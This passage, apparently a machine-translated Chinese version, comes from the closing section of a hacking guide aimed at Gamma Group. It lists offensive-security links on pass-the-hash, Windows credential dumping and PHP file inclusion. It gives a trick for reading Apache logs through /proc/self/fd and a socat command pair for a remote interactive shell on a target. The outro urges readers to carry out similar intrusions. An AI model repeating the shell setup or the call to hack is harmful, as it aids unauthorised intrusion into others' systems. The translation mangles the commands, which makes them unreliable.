 * https://www.pentesterlab.com/exercises/
* http://overthewire.org/wargames/
* http://www.hackthissite.org/
* http://smashthestack.org/
* http://www.win.tue.nl/~aeb/linux/hh/hh.html
* http://www.phrack.com/
* http://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot
* http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash
* https://securusglobal.com/community/2013/12/20/dumping-windows-credentials/
* https://www.netspi.com/blog/entryid/140/resources-for-aspiring-penetration-terters
  （所有他的其他博客文章是伟大的）
* https://www.corelan.be/（从Exploit写作教程第1部分开始）
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
  其中一个技巧是，在大多数系统上apache访问日志是
  只能由root读取，但您仍然可以从/ proc / self / fd / 10或
  任何fd apache打开它。如果提到它也将更有用
  什么版本的php各种技巧固定。
* http://www.dest-unreach.org/socat/
  获取可用的反向shell与静态链接的socat副本
  您的目标和：
  target $ socat exec：'bash -li'，pty，stderr，setsid，sigint，sane tcp-listen：PORTNUM
  host $ socat文件：`tty`，raw，echo = 0 tcp-connect：localhost：PORTNUM
  它也有用于设置奇怪的枢轴和各种其他的东西。

图书：

* Web应用程序黑客手册
* 黑客：剥削的艺术
* 数据库黑客手册
* 软件安全评估的艺术
* 一个Bug猎人的日记
* 地下：电子前沿的黑客，疯狂和痴迷的故事
* TCP / IP说明

除了黑客特定的东西几乎任何有用的系统
管理员设置和管理网络也将是有用的
探索他们。这包括熟悉Windows命令提示符和unix
shell，基本脚本技能，ldap，kerberos，活动目录，
网络等。


 -  [10]  -  Outro

你会注意到一些这听起来完全像Gamma在做什么。黑客是一个
工具。它不是销售黑客工具，使Gamma邪恶。这是谁的他们
客户的目标和什么目的，使他们的邪恶。这不是
说工具本质上是中性的。黑客是一个进攻工具。在里面
同样的方式，游击战争使它更难占领一个国家，无论何时
它的攻击比保卫它更难以维持非法的更便宜
权威和不平等。所以我写这个试图使黑客更容易和更多
无障碍。我想表明，Gamma集团真的没什么
花式，只是标准sqli，你有能力出去带走
类似的行动。

团结对加沙每个人，以色列良心反对者，切尔西
Manning，Jeremy Hammond，Peter Sunde，anakata和所有其他监禁
黑客，异议人士和罪犯！
